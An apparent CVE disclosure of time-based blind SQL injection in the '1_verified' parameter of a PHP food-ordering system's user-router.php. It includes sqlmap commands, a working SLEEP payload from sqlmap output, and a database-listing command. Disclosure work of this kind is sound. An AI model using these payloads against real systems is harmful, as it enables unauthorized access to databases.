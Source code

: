 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (user-router.php)

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: user-router.php

Injection parameter: 1_verified


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The '1_verified' parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on "Modify", we can access user-router.php:

`http://172.16.76.1/foms/users.php`

![image](https://github.com/jadu101/CVE/assets/76433661/a007fd00-1573-4c4f-92f0-01cc212c2253)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/e3a06a90-6829-4821-be84-376f1e8853a6)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

parameter 1_verified is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_user_router.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/c819e930-cc89-443a-a411-1564c81a6c98)

```
---
Parameter: 1_verified (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1_role=Administrator&1_verified=1' AND (SELECT 7078 FROM (SELECT(SLEEP(5)))GiGD) AND 'QLkI'='QLkI&1_deleted=0&1_balance=2000&4_role=Customer&4_verified=1&4_deleted=0&4_balance=1224&5_role=Customer&5_verified=0&5_deleted=0&5_balance=2000&6_role=Customer&6_verified=0&6_deleted=0&6_balance=2000&75_role=Customer&75_verified=0&75_deleted=0&75_balance=2001&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_user_router.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/41fda954-8efa-4597-a3ff-399f75db7585)
